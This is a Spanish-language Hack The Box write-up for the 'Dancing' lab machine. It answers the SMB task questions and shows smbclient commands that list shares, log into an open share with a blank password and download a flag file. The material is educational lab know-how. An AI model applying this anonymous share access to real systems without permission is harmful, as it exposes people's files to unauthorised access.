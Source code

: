 ```yaml
---
title: Dancing
date: 2025-04-5 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, dancing, smb, smbclient]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

Esta vez HTB nos trae un reto realcionado con Windows, la primera tarea nos da una pista de lo que toca **Samba**

## Dancing
Task 1

What does the 3-letter acronym SMB stand for?
>Server Message Block

Task 2

What port does SMB use to operate at?
>445

Task 3

What is the service name for port 445 that came up in our Nmap scan?
>microsoft-ds

Task 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
> -L

┌─[eu-starting-point-1-dhcp]─[10.10.15.134]─[pmartinezr@htb-n8eht2kbq2]─[~]
└──╼ [★]$ smbclient -L //10.129.133.62
Password for [WORKGROUP\pmartinezr]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.133.62 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available


Task 5

How many shares are there on Dancing?
>4

Task 6

What is the name of the share we are able to access in the end with a blank password?
>WorkShares

```shell
┌─[eu-starting-point-1-dhcp]─[10.10.15.134]─[pmartinezr@htb-n8eht2kbq2]─[~]
└──╼ [★]$ smbclient //10.129.133.62/WorkShares/ -U admin
Password for [WORKGROUP\admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1752921 blocks available
smb: \> 
```


Task 7

What is the command we can use within the SMB shell to download the files we find?

``` shell
┌─[eu-starting-point-1-dhcp]─[10.10.15.134]─[pmartinezr@htb-n8eht2kbq2]─[~]
└──╼ [★]$ smbclient //10.129.133.62/WorkShares/ -U admin
Password for [WORKGROUP\admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1752921 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 04:08:24 2021
  ..                                  D        0  Mon Mar 29 04:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 06:00:37 2021

		5114111 blocks of size 4096. 1752918 blocks available
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 03:38:03 2021
  ..                                  D        0  Thu Jun  3 03:38:03 2021
  flag.txt                            A       32  Mon Mar 29 04:26:57 2021

		5114111 blocks of size 4096. 1752918 blocks available
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> quit
┌─[eu-starting-point-1-dhcp]─[10.10.15.134]─[pmartinezr@htb-n8eht2kbq2]─[~]
└──╼ [★]$ cat flag.txt 
```

Submit Flag 

Submit root flag [achievement](https://www.hackthebox.com/achievement/machine/2336390/395)